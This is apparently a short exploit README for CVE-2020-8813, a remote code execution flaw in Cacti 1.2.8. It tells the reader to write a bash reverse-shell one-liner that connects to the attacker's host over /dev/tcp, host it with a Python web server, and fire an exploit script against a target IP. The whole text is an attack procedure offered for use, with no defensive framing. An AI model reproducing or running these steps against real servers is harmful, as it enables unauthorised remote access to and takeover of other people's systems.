 #CVE: CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

    eg.: echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

    eg.: python3 -m http.server

Fire the exploit

    Usage: python3 expoit.py TargetIP LocalIP ShellName

![image](https://user-images.githubusercontent.com/56730389/115649526-df32b500-a2fd-11eb-8ba1-eb2923223c6b.png)

